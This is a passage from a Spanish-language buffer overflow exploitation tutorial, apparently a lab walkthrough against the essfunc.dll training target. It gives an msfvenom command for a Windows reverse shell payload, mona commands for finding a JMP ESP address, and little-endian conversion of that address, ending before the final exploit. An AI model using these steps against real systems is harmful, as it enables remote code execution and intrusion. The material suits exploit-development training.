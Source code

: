 ```msfvenom -p windows/shell_reverse_tcp LHOST=<Nuestra IP> LPORT=<Puerto> EXITFUNC=thread -b "<BADCHARS>" -f c```
    except: 
        print("Error de conexion")
        sys.exit(1)

```

# JMP ESP

Una vez tengamos definido el shellcode y lo logremos meter en la pila, debemos poner que el EIP apunte al ESP y asi el shellcode se ejecute, pero no es tan fácil como indicarle nosotros la dirección y ya, o sea si podemos hacerlo pero el shellcode no se ejecutara

Debemos poner que el EIP apunte a una dirección que aplique un salto al ESP

<img src="nasmshell.png">

Ahora que sabemos que el opcode es FFE4, dentro del ImmunityDebugger pondremos

```!mona modules```

<img src="monamodules.png">

Al listar los módulos veremos que tenemos el primero de la fila con todo en "False", esto quiere decir que no tiene ninguna protección asignada.

<img src="false4.png">

Una vez tengamos el DLL a usar o .exe, pondremos lo siguiente

```!mona find -s "\xff\xe4" -m essfunc.dll```

Luego de eso, nos tendremos que quedar con alguna de las direcciones que nos saldrán a la izquierda, es importante que estas direcciones no contengan los badchars que anteriormente habíamos detectado.

En mi caso me quedaré con la primera dirección, es decir, la "0x625011af"

<img src="monafind.png">

En mi caso me quedaré con la primera dirección, es decir, la "0x625011af", esta la buscaremos en el siguiente apartado del ImmunityDebugger

<img src="jmpesp.png">

Luego de eso se nos posicionara en esa dirección y podremos ver que se esta haciendo un salto al ESP

<img src="jmpespok.png">

# Explotación

Una vez ya tengamos todo preparado para poder explotar este buffer overflow, vamos a hacer los cambios en el exploit.

Lo primero que vamos a hacer es cambiar el valor de EIP por la dirección que elegimos pero en formato Little Endian, es decir, hay que rotarla.

La dirección "0x625011AF" en Little Endian se vería así

> AF115062

En mi Github tengo un script el cual se encarga de poner en forma automática una dirección en little endian 

```